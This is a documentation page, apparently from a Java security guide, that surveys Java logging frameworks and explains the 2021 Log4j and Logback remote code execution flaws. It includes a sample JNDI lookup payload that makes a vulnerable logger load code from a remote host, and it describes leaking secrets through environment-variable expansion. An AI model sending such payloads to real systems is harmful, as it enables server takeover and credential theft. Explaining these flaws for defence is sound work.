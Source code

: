 ```yaml
---
title: Logging
sidebar_position: 2
---
```


Java developers have a large number of choices for logging:

 * System Logger - introduced in Java 9 (2017), an API that acts as a facade to other loggers.
 * JUL - Introduced in Java 1.4 (2002), the Java Util Logger, is generally available.
 * Log4j
    * Log4j2 - Released in 2014, a fast logging framework.
    * Log4j - Released in 2001 and end-of-lifed in 2015.
 * Logback
    * Logback - Released 2006, intended as a successor of log4j.
    * SLF4J - Released 2005, a simple logging facade. This does not provide a logger, it provides a single API that can consolidate the other loggers.
 * Apache Commong-Logging - Released in 2002 and end-of-lifed in 2014.
 * TinyLogger - Released in 2012, a fast logging framework.

Many Java applications include more that one logger. In a [2020 study by York University](https://nemo9cby.github.io/resources/pubs/icse2020_chen.pdf), researchers identified that Hadoop used six loggers and IntelliJ used twelve.

## Logging Vulnerabilities

The main type of vulnerability that impacts logs it [Log Injection](../../vulnerabilities/log-injection.md).

In 2021, the logging framework Log4j, [Log4J2](https://nvd.nist.gov/vuln/detail/CVE-2021-45046), and [Logback](https://cve.report/CVE-2021-42550) were vulnerable to [Remote Code Execution](../../vulnerabilities/remote-code-execution.md), allowing attackers to take control over these servers when they logged user input. The vulnerable versions of log4j spanned from 2014 to 2021. Attackers could craft input that caused the application to load and execute remote classes over JNDI.

```
${jndi:rmi://192.168.2.106:1099/vccvhr}
```

When a server with a vulnerable Log4j writes that String to a log, it loads the remote code from the host and executes it. Attackers took advantage of this in two ways:

 1. Compromising the server to run code and steal data.
 2. Expanding environment variables in the URL's hostname, to read sensitive data like AWS keys.